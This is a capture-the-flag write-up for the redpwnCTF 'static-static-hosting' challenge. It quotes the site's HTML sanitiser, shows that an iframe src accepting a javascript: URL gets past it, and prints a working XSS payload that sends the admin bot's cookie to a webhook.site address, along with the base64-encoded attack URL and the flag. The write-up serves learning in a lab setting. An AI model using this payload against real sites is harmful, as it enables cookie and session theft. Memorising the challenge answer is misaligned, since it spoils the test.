


# static-static-hosting 

## Problem

```
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here

Site: static-static-hosting.2020.redpwnc.tf

Note: The site is entirely static. Dirbuster will not be useful in solving it.
```

## Solution

Similar to [static-pastebin](./static-pastebin.md), we are given a [hosting website](https://static-static-hosting.2020.redpwnc.tf/) 
and an another [admin bot website](https://admin-bot.redpwnc.tf/submit?challenge=static-static-hosting) which visits any 
URL it is given.

Even though the hosting website prompts us to submit HTML, we submit a random word anyway. It is accepted, so we go on to check the
the [background source](files/static-static-hosting/script.js) for this site.

```javascript
function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```
Sanitisation is a bit more complicated now. As seen from `sanitise()`, we cannot use `script` tags and attribute types are 
limited to `'src', 'width', 'height', 'alt', 'class'` now.

We try using the same method from static-pastebin to see if it works on this challenge. This time, we try using `<iframe>`
tags as their `src` attribute could trigger Javascript. Our test payload on the hosting site:
```javascript
<iframe src="javascript:alert(123)"></iframe>
```



This works! so we can reuse the same plan from static-pastebin to conduct an XSS and grab the admin cookie.

Payload:
```javascript
<iframe src="javascript:document.location='//webhook.site/17ea03fd-9bdf-4c80-a9b1-8e4ee88cd72f?c='+document.cookie"></iframe>
```

Base64 encode the payload, append it to the back of the URL template (this time it is `https://static-static-hosting.2020.redpwnc.tf/site/#`):
```
https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249Jy8vd2ViaG9vay5zaXRlLzE3ZWEwM2ZkLTliZGYtNGM4MC1hOWIxLThlNGVlODhjZDcyZj9jPScrZG9jdW1lbnQuY29va2llIj48L2lmcmFtZT4=
```

Submit the resulting URL to the admin bot, and the request data will be sent to our webhook site, where we can view the flag.



**Flag**: `flag{wh0_n33d5_d0mpur1fy}`